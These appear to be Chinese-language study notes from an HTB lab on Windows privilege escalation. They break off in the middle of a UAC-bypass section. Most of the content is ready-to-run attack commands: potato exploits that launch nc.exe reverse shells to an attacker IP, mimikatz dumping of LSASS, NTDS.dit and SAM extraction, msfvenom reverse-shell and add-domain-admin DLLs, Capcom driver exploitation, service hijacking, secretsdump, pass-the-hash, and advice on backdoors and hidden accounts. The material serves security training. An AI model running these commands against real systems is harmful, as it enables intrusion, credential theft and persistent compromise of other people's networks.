

# 1、介绍

```shell-session
@htb[/htb]$  xfreerdp /v:10.129.43.36 /u:htb-student
```

## 1.1工具

[Seatbelt ](https://github.com/GhostPack/Seatbelt) 用于执行各种本地权限提升检查的 C# 项目

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) WinPEAS 是一个脚本，用于搜索可能的路径以提升 Windows 主机上的权限

[PowerUp](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) PowerShell 脚本，用于查找依赖于错误配置的常见 Windows 权限提升向量。它还可用于利用发现的一些问题

[SharpUp](https://github.com/GhostPack/SharpUp) C# 版本的 PowerUp 

[JAWS](https://github.com/411Hall/JAWS) 用于枚举在 PowerShell 2.0 中编写的权限提升向量的 PowerShell 脚本

[SessionGopher](https://github.com/Arvanaghi/SessionGopher) SessionGopher 是一个 PowerShell 工具，用于查找和解密远程访问工具的已保存会话信息。它提取 PuTTY、WinSCP、SuperPuTTY、FileZilla 和 RDP 保存的会话信息

[Watson](https://github.com/rasta-mouse/Watson) Watson 是一个 .NET 工具，旨在枚举丢失的知识库并建议针对权限提升漏洞的漏洞

[LaZagne  ](https://github.com/AlessandroZ/LaZagne)用于从 Web 浏览器、聊天工具、数据库、Git、电子邮件、内存转储、PHP、系统管理工具、无线网络配置、内部 Windows 密码存储机制等检索存储在本地计算机上的密码的工具

[Windows Exploit Suggester - Next Generation](https://github.com/bitsadmin/wesng) WES-NG 是一个基于 Windows 的 `systeminfo` 实用程序输出的工具，它提供了作系统易受攻击的漏洞列表，包括针对这些漏洞的任何漏洞。支持 Windows XP 和 Windows 10 之间的每个 Windows 作系统，包括它们的 Windows Server 对应版本

[Sysinternals](https://docs.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) 我们将在枚举中使用 Sysinternals 中的多个工具，包括 [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)、[PipeList](https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist) 和 [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice)

<!--工具可能是一把双刃剑。虽然它们有助于加快枚举过程并为我们提供高度详细的输出，但如果我们不知道如何读取输出或将其缩小到最有趣的数据点，我们的工作效率可能会降低。工具也会产生误报，因此我们必须深入了解许多可能的权限升级技术，以便在出现问题或看起来不像那样时进行故障排除。手动学习枚举技术将有助于确保我们不会因工具问题（如误报或误报）而遗漏明显的缺陷。-->

<!--假设他们正在寻找尽可能多的问题，并且不打算在这个阶段测试他们的防守。-->

# 2、了解情况

## 2.1态势感知

### 2.1.1网络信息

#### 2.1.1.1接口、IP 地址、DNS 信息

```cmd-session
C:\htb> ipconfig /all
```

#### 2.1.1.2ARP 表

```cmd-session
C:\htb> arp -a
```

#### 2.1.1.3路由表

```cmd-session
C:\htb> route print
```

### 2.1.2检查 Windows Defender 状态

```powershell-session
PS C:\htb> Get-MpComputerStatus
```

### 2.1.3列出 AppLocker 规则

```powershell-session
PS C:\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

### 2.1.4测试 AppLocker 策略

```powershell-session
PS C:\htb> Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone
```

## 2.2初始枚举

### 2.2.1系统信息

#### 2.2.1.1任务列表

```cmd-session
C:\htb> tasklist /svc
```

#### 2.2.1.2Windows进程

[会话管理器子系统 （smss.exe）](https://en.wikipedia.org/wiki/Session_Manager_Subsystem)

[客户端服务器运行时子系统（csrss.exe)](https://en.wikipedia.org/wiki/Client/Server_Runtime_Subsystem)

[WinLogon （winlogon.exe）](https://en.wikipedia.org/wiki/Winlogon)

[ 本地安全机构子系统服务 （LSASS）](https://en.wikipedia.org/wiki/Local_Security_Authority_Subsystem_Service) 

[服务主机 （svchost.exe）](https://en.wikipedia.org/wiki/Svchost.exe) 

#### 2.2.1.3显示所有环境变量

```cmd-session
C:\htb> set
```

<!--环境变量解释了很多关于主机配置的信息。为了获取它们的打印输出，Windows 提供了 `set` 命令。最容易被忽视的变量之一是 `PATH。` 在下面的输出中，没有什么异常。但是，发现管理员（或应用程序）修改 `PATH` 的情况并不少见。一个常见的例子是将 Python 或 Java 放在路径中，这将允许执行 Python 或 .JAR 文件。如果放置在 PATH 中的文件夹可由您的用户写入，则可以对其他应用程序执行 DLL 注入。请记住，运行程序时，Windows 会首先在 CWD（当前工作目录）中查找该程序，然后从从左到右的 PATH 中查找该程序。这意味着如果自定义路径放置在左侧（在 C：\Windows\System32 之前），则比右侧危险得多。-->

<!--除了 PATH 之外，`set` 还可以放弃其他有用的信息，例如 HOME DRIVE。在企业中，这通常是文件共享。导航到文件共享本身可能会显示可以访问的其他目录。能够访问“IT 目录”并非闻所未闻，其中包含包含密码的清单电子表格。此外，共享用于主目录，以便用户可以登录到其他计算机并具有相同的体验/文件/桌面/等（[ 漫游配置文件 ](https://docs.microsoft.com/en-us/windows-server/storage/folder-redirection/folder-redirection-rup-overview)）。这也可能意味着用户随身携带恶意项目。如果将文件放置在 `USERPROFILE\AppData\Microsoft\Windows\Start Menu\Programs\Startup` 中，当用户登录到另一台计算机时，将执行此文件。-->

####  2.2.1.4查看详细的配置信息

```cmd-session
C:\htb> systeminfo
```

<!--`systeminfo` 命令将显示该框是否最近已修补，以及它是否是 VM。如果盒子最近没有修补，获得管理员级别的访问权限可能就像运行已知漏洞一样简单。谷歌热[修复](https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix)程序下安装的知识库，以了解盒子何时已修补。此信息并不始终存在，因为可以对非管理员隐藏修补程序软件。还可以检查`系统启动时间`和`作系统版本`以了解补丁级别。如果盒子在六个月多的时间里没有重新启动，则很可能也没有修补。-->

#### 2.2.1.5补丁和更新

```cmd-session
C:\htb> wmic qfe
```

```powershell-session
PS C:\htb> Get-HotFix | ft -AutoSize
```

#### 2.2.1.6已安装的程序

```cmd-session
C:\htb> wmic product get name
```

```powershell-session
PS C:\htb> Get-WmiObject -Class Win32_Product |  select Name, Version
```

#### 2.2.1.7显示正在运行的进程

```cmd-session
PS C:\htb> netstat -ano
```

### 2.2.2用户和组信息

#### 2.2.2.1 登录用户

```cmd-session
C:\htb> query user
```

#### 2.2.2.2 当前用户

```cmd-session
C:\htb> echo %USERNAME%
```

#### 2.2.2.3当前用户权限

```cmd-session
C:\htb> whoami /priv
```

#### 2.2.2.4当前用户组信息

```cmd-session
C:\htb> whoami /groups
```

#### 2.2.2.5获取所有用户

```cmd-session
C:\htb> net user
```

#### 2.2.2.6获取所有组

```cmd-session
C:\htb> net localgroup
```

```cmd-session
C:\htb> net localgroup administrators
```

#### 2.2.2.7关于组的详细信息

```cmd-session
C:\htb> net localgroup administrators
```

#### 2.2.2.8获取密码策略和其他账户信息

```cmd-session
C:\htb> net accounts
```

## 2.3交流步骤

### 2.3.1访问令牌

### 2.3.2枚举网络服务

```cmd-session
C:\htb> netstat -ano
```

<!--使用活动网络连接时要查找的主要内容是侦听环回地址（`127.0.0.1` 和 `：：1`）的条目，这些条目不侦听 IP 地址 （`10.129.43.8`） 或广播 （`0.0.0.0，` `：：/0`）。这样做的原因是 localhost 上的网络套接字通常是不安全的，因为人们认为“网络无法访问它们”。-->

**splunk案例：**

 [Splunk Universal Forwarder Hijacking ](https://airman604.medium.com/splunk-universal-forwarder-hijacking-5899c3e0e6b2) 

[SplunkWhisperer2](https://clement.notin.org/blog/2019/02/25/Splunk-Universal-Forwarder-Hijacking-2-SplunkWhisperer2/)

**Erlang案例：**

 [Mubix 的 Erlang-arce 博客文章](https://malicious.link/post/2018/erlang-arce/)

### 2.3.3命名管道

#### 2.3.3.1列出命名管道

```cmd-session
C:\htb> pipelist.exe /accepteula
```

```powershell-session
PS C:\htb>  gci \\.\pipe\
```

#### 2.3.3.2查看 LSASS 命名管道权限

```cmd-session
C:\htb> accesschk.exe /accepteula \\.\Pipe\lsass -v
```

#### 2.3.3.3检查 WindscribeService 命名管道权限

```cmd-session
C:\htb> accesschk.exe -accepteula -w \pipe\WindscribeService -v
```

# 3、用户权限

## 3.1SeImpersonate and SeAssignPrimaryToken

### 3.1.1SeImpersonate Example

#### 3.1.1.1与 MSSQLClient.py 连接

```shell-session
[/htb]$ mssqlclient.py sql_dev@10.129.43.63 -windows-auth
```

#### 3.1.1.2启用 xp_cmdshell

```shell-session
SQL> enable_xp_cmdshell
```

#### 3.1.1.3确认访问权限

```shell-session
SQL> xp_cmdshell whoami
```

#### 3.1.1.4检查账户权限

```shell-session
SQL> xp_cmdshell whoami /priv
```

#### 3.1.1.5使用 JuicyPotato 提升权限

```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

### 3.1.2PrintSpoofer and RoguePotato

JuicyPotato 不适用于 Windows Server 2019 和 Windows 10 build 1809 及更高版本。但是，[PrintSpoofer](https://github.com/itm4n/PrintSpoofer) 和 [RoguePotato](https://github.com/antonioCoco/RoguePotato) 可用于利用相同的权限并获得 `NT AUTHORITY\SYSTEM` 级别的访问权限。这篇[博文](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)深入探讨了 `PrintSpoofer` 工具，该工具可用于在 JuicyPotato 不再工作的 Windows 10 和 Server 2019 主机上滥用模拟权限。

#### 3.1.2.1使用 PrintSpoofer 提升权限

```shell-session
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```

## 3.2 SeDebugPrivilege

### 3.2.1

```cmd-session
C:\htb> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

```cmd-session
C:\htb> mimikatz.exe
```

```cmd-session
mimikatz # log
```

```cmd-session
mimikatz # sekurlsa::minidump lsass.dmp
```

```cmd-session
mimikatz # sekurlsa::logonpasswords
```

<!--假设我们出于某种原因无法在目标上加载工具，但具有 RDP 访问权限。在这种情况下，我们可以通过任务管理器手动转储 `LSASS` 进程，方法是浏览到 `“详细信息”` 选项卡，选择 `LSASS` 进程，然后选择“` 创建转储文件 `”。将此文件下载回我们的攻击系统后，我们可以使用 Mimikatz 处理它，就像前面的例子一样。-->

### 3.2.2 作为system远程执行代码

https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

执行[MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")

1.以管理员身份运行powershell

```powershell-session
PS C:\htb> tasklist 
```

在这里，我们可以定位在 PID 612 下运行`的 winlogon.exe`，我们知道它在 Windows 主机上以 SYSTEM 形式运行。




## 3.3 SeTakeOwnershipPrivilege

```powershell-session
whoami /priv 查看账户权限

Import-Module .\Enable-Privilege.ps1

.\EnableAllTokenPrivs.ps1 提权

Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}查看目标文件信息

cmd /c dir /q 'C:\Department Shares\Private\IT' 检查文件所有权

takeown /f 'C:\Department Shares\Private\IT\cred.txt' 获取文件所有权

Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}确认所有权已更改

icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F授予用户对目标文件的完全权限

cat 'C:\Department Shares\Private\IT\cred.txt'读取文件
```

# 4、Windows组权限

## 4.1 Windows内置组

### 4.1.1Backup Operators组

```powershell-session
Import-Module .\SeBackupPrivilegeUtils.dll

Import-Module .\SeBackupPrivilegeCmdLets.dll

whoami /priv #验证SeBackupPrivilege是否启用

Get-SeBackupPrivilege #验证SeBackupPrivilege是否启用

Set-SeBackupPrivilege #启用SeBackupPrivilege

dir C:\Confidential\ 

Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt

cat  .\Contract.txt
```

### 4.1.2 攻击域控制器 复制 NTDS.dit

backup operators组还允许在本地登录到域控制器。Active Directory 数据库 `NTDS.dit` 是一个非常有吸引力的目标，因为它包含域中所有用户和计算机对象的 NTLM 哈希。但是，此文件已锁定，非特权用户也无法访问。

由于 `NTDS.dit` 文件默认锁定，因此我们可以使用 Windows [diskshadow](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) 实用程序创建 `C` 盘的卷影副本并将其公开为 `E` 盘。系统不会使用此卷影副本中的 NTDS.dit。

```powershell-session
PS C:\htb> diskshadow.exe

###创建C盘的卷影副本
DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:

PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit #在本地复制NTDS.dit

该权限还允许我们备份 SAM 和 SYSTEM 注册表配置单元，我们可以使用 Impacket 的 secretsdump.py 等工具离线提取本地帐户凭据
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

C:\htb> reg save HKLM\SAM SAM.SAV

提取 NTDS.dit 后，可以使用 secretsdump.py 或 PowerShell DSInternals 模块等工具提取所有 Active Directory 帐户凭据。让我们使用 DSInternals 仅获取域的管理员帐户的 NTLM 哈希值。
PS C:\htb> Import-Module .\DSInternals.psd1

PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM

PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

@htb[/htb]$ secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

Robocopy 与 `copy` 命令的不同之处在于，它不仅可以复制所有文件，还可以检查目标目录并删除源目录中不再存在的文件。它还可以在复制前比较文件，通过不复制自上次复制/备份作业运行以来未更改的文件来节省时间。

```cmd-session
C:\htb> robocopy /B E:\Windows\NTDS .\ntds ntds.dit
```

## 4.2事件日志读取器

```cmd-session
C:\htb> net localgroup "Event Log Readers" #确认组成员资格

PS C:\htb> wevtutil qe Security /rd:true /f:text | Select-String "/user"#使用 wevtutil 搜索安全日志

wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"#将凭据传递给 wevtutil

Get-WinEvent -LogName security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*'} | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}#使用 Get-WinEvent 搜索安全日志
```

## 4.3 DNS管理员

### 4.3.1利用 DnsAdmins 访问权限

```shell-session
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll #生成恶意 DLL

python3 -m http.server 7777 #启动本地 HTTP 服务器

wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"#将文件下载到目标

dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll #以非特权用户身份加载 DLL 不成功

Get-ADGroupMember -Identity DnsAdmins#将 DLL 加载为 DnsAdmins 的成员

wmic useraccount where name="netadm" get sid #查找用户的 SID

sc.exe sdshow DNS#检查 DNS 服务的权限

sc stop dns#停止 DNS 服务

sc start dns#启动 DNS 服务

net group "Domain Admins" /dom#确认组成员资格
```

### 4.3.2清理

```cmd-session
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters#确认已添加注册表项

reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll#删除注册表项

sc.exe start dns#再次启动DNS服务

sc query dns#检查 DNS 服务状态
```

### 4.3.3使用 Mimilib.dll

我们还可以利用 `Mimikatz` 工具创建者的 [mimilib.dll](https://github.com/gentilkiwi/mimikatz/tree/master/mimilib)，通过修改 [kdns.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kdns.c) 文件来执行反向 shell 单行或我们选择的其他命令来获得命令执行。

```c
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

### 4.3.4创建WPAD记录

禁用全局查询阻止列表并创建 WPAD 记录后，每台使用默认设置运行 WPAD 的计算机都将通过我们的攻击计算机代理其流量。我们可以使用 [Responder](https://github.com/lgandx/Responder) 或 [Inveigh](https://github.com/Kevin-Robertson/Inveigh) 等工具来执行流量欺骗，并尝试捕获密码哈希并离线破解它们或执行 SMBRelay 攻击。

```powershell-session
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local#禁用全局查询阻止列表

Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3#添加指向攻击机器的  WPAD 记录
```

## 4.4Hyper-V 管理员

本[博客](https://decoder.cloud/2020/01/20/from-hyper-v-admin-to-system/)上也有详细记录，在删除虚拟机时，`vmms.exe` 会尝试还原相应 `.vhdx` 文件的原始文件权限，并以 `NT AUTHORITY\SYSTEM` 的身份执行此作，而无需模拟用户。我们可以删除 `.vhdx` 文件并创建一个本机硬链接，将此文件指向受保护的 SYSTEM 文件，我们将拥有该文件的完全权限。

如果操作系统容易受到 [CVE-2018-0952](https://www.tenable.com/cve/CVE-2018-0952) 或 [CVE-2019-0841](https://www.tenable.com/cve/CVE-2019-0841) 的攻击，我们可以利用它来获取 SYSTEM 权限。

Firefox例子[此漏洞 ](https://raw.githubusercontent.com/decoder-it/Hyper-V-admin-EOP/master/hyperv-eop.ps1)：

```shell-session
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe #目标文件

C:\htb> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe #获取文件的所有权

sc.exe start MozillaMaintenance#用恶意 maintenanceservice.exe 替换这个文件，启动维护服务，并以 SYSTEM 的形式执行命令
```

## 4.5Print Operators

### 4.5.1 确认特权

如果我们发出命令 `whoami /priv`，并且没有看到来自未提升的上下文中的 `SeLoadDriverPrivilege`，则需要绕过 UAC。

### 4.5.2使用cl.exe编译

[UACMe](https://github.com/hfiref0x/UACME) 存储库具有完整的 UAC 旁路列表，可从命令行使用。或者，我们可以从 GUI 打开一个管理命令 shell 并输入作为 Print Operators 组成员的帐户的凭据。

众所周知，驱动程序 `Capcom.sys` 包含允许任何用户以 SYSTEM 权限执行 shellcode 的功能。我们可以使用我们的权限来加载这个易受攻击的驱动程序并升级权限。我们可以[使用此工具](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp)来加载驱动程序。PoC 启用权限并为我们加载驱动程序。

添加以下

```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

在 Visual Studio 2019 开发人员命令提示符中，使用 **cl.exe** 编译它

```cmd-session
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

### 4.5.3向驱动程序添加引用

接下来，从[这里](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)下载 `Capcom.sys` 驱动程序，并将其保存到 `C：\temp`。发出以下命令，在 HKEY_CURRENT_USER 树下添加对此驱动程序的引用。

```cmd-session
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
```

奇怪的语法 `\？？\` 用于引用恶意驱动程序的 ImagePath 是 [NT 对象路径 ](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c)。Win32 API 将解析并解析此路径，以正确定位和加载我们的恶意驱动程序。

### 4.5.4验证驱动程序是否未加载

使用 Nirsoft 的 [DriverView.exe](http://www.nirsoft.net/utils/driverview.html)，我们可以验证 Capcom.sys 驱动程序是否未加载。

```powershell-session
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
EnableSeLoadDriverPrivilege.exe#验证权限是否已启用
```

### 4.5.5使用 ExploitCapcom 工具提升权限

要利用该 Capcom.sys，我们可以在编译 Visual Studio 后使用 [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) 工具。

```powershell-session
PS C:\htb> .\ExploitCapcom.exe
```


### 4.5.6针对无GUI的情况

如果我们没有对目标的 GUI 访问权限，我们将不得不在编译之前修改 `ExploitCapcom.cpp` 代码。在这里，我们可以编辑第 292 行并替换 `"C:\\Windows\\system32\\cmd.exe"` 为使用 `msfvenom` 创建的反向 shell 二进制文件，例如：`c：\ProgramData\revshell.exe`。

```c
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

此示例中的`命令行`字符串将更改为：TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");

### 4.5.7使用 EopLoadDriver 实现自动化

我们可以使用 [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) 等工具来自动执行启用权限、创建注册表项和执行 `NTLoadDriver` 加载驱动程序的过程。为此，我们将运行以下命令：

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```

然后，我们将运行 `ExploitCapcom.exe` 来弹出 SYSTEM shell 或运行我们的自定义二进制文件。

### 4.5.8清理：删除注册表项

```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom
```

## 4.6 Server Operators

### 4.6.1 查询 AppReadiness 服务

```cmd-session
C:\htb> sc qc AppReadiness
```

### 4.6.2使用 PsService 检查服务权限

我们可以使用服务查看器/控制器 [PsService](https://docs.microsoft.com/en-us/sysinternals/downloads/psservice)（Sysinternals 套件的一部分）来检查服务的权限

```cmd-session
C:\htb> c:\Tools\PsService.exe security AppReadiness
```

### 4.6.3检查本地管理员组成员身份

```cmd-session
C:\htb> net localgroup Administrators
```

### 4.6.4修改服务二进制路径

```cmd-session
C:\htb> sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```

### 4.6.5启动服务

```cmd-session
C:\htb> sc start AppReadiness
```

### 4.6.6确认本地管理员组成员身份

```cmd-session
C:\htb> net localgroup Administrators
```

### 4.6.7确认域控制器上的本地管理员访问权限

```shell-session
crackmapexec smb 10.129.43.9 -u server_adm -p 'HTB_@cademy_stdnt!'
```

### 4.6.8从域控制器检索 NTLM 密码哈希

```shell-session
secretsdump.py server_adm@10.129.43.9 -just-dc-user administrator
```

这些 secretsdump.py 的结果是典型的域凭证 dump 数据，核心价值是获取了**管理员账户的 NTLM 哈希、Kerberos 密钥**，可用于后续的域渗透攻击或权限维持操作。

------

#### 4.6.8.1.直接利用凭证进行横向移动

获取的哈希和密钥可绕过明文密码，直接用于登录其他域内机器。

- **Pass-the-Hash（哈希传递）**：使用 Administrator 的 NTLM 哈希（`7796ee39fd3a9c3a1844556115ae1a54`），通过工具如`psexec`、`wmiexec`登录域内其他机器，命令示例：`psexec.exe \\目标IP -u domain\Administrator -h 7796ee39fd3a9c3a1844556115ae1a54 cmd.exe`。

  `wmiexec.py Administrator@10.129.113.64 -hashes aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54` 

- **Pass-the-Key（密钥传递）**：利用获取的 Kerberos 密钥（如 aes256 密钥），通过`mimikatz`的`sekurlsa::pth`模块生成票据，直接访问域内服务（如文件共享、SQL Server）。

------

#### 4.6.8.2生成黄金票据 / 白银票据

利用 Administrator 的哈希和域信息，伪造高权限 Kerberos 票据，实现长期权限控制。

- **黄金票据（Golden Ticket）**：需要域的 KRBTGT 账户哈希（需额外 dump），结合当前获取的 Administrator 哈希，可生成能访问所有域内资源的票据，绕过大部分域内防护。
- **白银票据（Silver Ticket）**：仅需目标服务的账户哈希（如文件服务器的机器账户哈希），可生成针对特定服务的票据，隐蔽性更高，适合精准访问。

------

#### 4.6.8.3密码破解与凭证复用

对 NTLM 哈希进行破解，获取明文密码后扩大攻击范围。

- **离线破解**：将 NTLM 哈希（`7796ee39fd3a9c3a1844556115ae1a54`）导入`hashcat`或`john the ripper`，使用字典暴力破解，命令示例：`hashcat -m 1000 hash.txt rockyou.txt`。
- **凭证复用**：若破解出明文密码，可尝试用于登录域控制器、Exchange 邮件服务器、VPN 等系统，部分管理员会在多个系统使用相同密码。

------

### 4.6.9权限维持与横向扩展

在获取初步权限后，部署后门或工具实现长期控制。

- **部署后门**：通过横向移动登录其他机器后，安装`mimikatz`、`cobalt strike` beacon 等工具，或创建隐藏账户（如`admin$123`），确保后续可随时访问。
- **信息收集**：利用管理员权限 dump 更多域内账户哈希（如通过`ntdsutil`备份 NTDS.dit 文件），或读取域控制器的组策略、用户列表，寻找更多高价值目标（如数据库服务器、财务系统）。

# 5、攻击操作系统

## 5.1 UAC 用户账户控制

管理员可以使用安全策略来配置 UAC 在本地级别特定于其组织的工作方式 （使用 secpol.msc） ，或通过 Active Directory 域环境中的组策略对象 （GPO） 进行配置和推送。

### 5.1.1 检查当前用户

```cmd-session
C:\htb> whoami /user
```

### 5.1.2 确认管理员组成员身份

```cmd-session
C:\htb> net localgroup administrators
```

### 5.1.3查看用户权限

```cmd-session
C:\htb> whoami /priv
```

### 5.1.4确认UAC已启用

```cmd-session
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

### 5.1.5检查UAC等级

```cmd-session
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```

### 5.1.6检查Windows版本

```powershell-session
PS C:\htb> [environment]::OSVersion.Version
```

[UACME](https://github.com/hfiref0x/UACME) 项目维护 UAC 绕过列表，包括有关受影响的 Windows 内部版本号、使用的技术以及 Microsoft 是否已发布安全更新来修复它的信息。让我们使用第 54 号技术，据称该技术适用于 Windows 10 build 14393。此技术针对自动提升二进制 `SystemPropertiesAdvanced.exe` 的 32 位版本。Windows 允许许多受信任的二进制文件自动提升，而无需 UAC 同意提示。

According to [this](https://egre55.github.io/system-properties-uac-bypass) blog post, the 32-bit version of `SystemPropertiesAdvanced.exe` attempts to load the non-existent DLL srrstr.dll, which is used by System Restore functionality.
根据[这篇](https://egre55.github.io/system-properties-uac-bypass)博文，32 位版本的 `SystemPropertiesAdvanced.exe` 尝试加载不存在的 DLL srrstr.dll，该 DLL 由系统还原功能使用。

尝试查找 DLL 时，Windows 将使用以下搜索顺序：

1.从加载应用程序的目录

2.C：\Windows\System32

3.C：\Windows\System（64 位系统不支持）

4..目录

5.PATH 环境变量中列出的任何目录

### 5.1.7查看路径变量

```powershell-session
PS C:\htb> cmd /c echo %PATH%
```

我们可以通过使用 DLL 劫持来绕过 UAC，方法是将恶意 `srrstr.dll` DLL 放置在 `WindowsApps` 文件夹中，该文件夹将在提升的上下文中加载。

### 5.1.8生成恶意 srrstr.dll 

```shell-session
@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

### 5.1.9在攻击主机上启动 Python HTTP Server

```shell-session
